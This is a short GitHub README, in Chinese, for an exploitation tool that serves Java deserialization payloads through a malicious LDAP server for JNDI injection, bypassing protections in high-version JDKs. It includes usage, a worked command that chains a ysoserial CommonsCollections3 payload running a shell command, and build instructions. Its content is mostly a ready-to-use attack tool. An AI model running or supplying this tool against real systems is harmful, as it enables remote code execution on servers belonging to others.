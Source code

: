 # JNDI-Injection-LDAP-Deserialization

JNDI注入利用工具，LDAP+原生反序列化 方式绕过高版本JDK，需要配合ysoserial等序列化数据生成工具


## udpate-1230

 - 添加打印信息，提示请求/响应是否成功

## Usage
```bash
java -jar JNDI-Injection-LDAP-Deserialization-1.0-SNAPSHOT.jar LDAP服务端口 Base64编码的序列化数据
```


## Examples

```bash
java -jar JNDI-Injection-LDAP-Deserialization-1.0-SNAPSHOT.jar 1389 `java -jar  ~/Tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections3 'touch /tmp/success' |base64`
```



## Building

Java 1.8 and Maven 3.x

```bash
mvn clean package -DskipTests
```

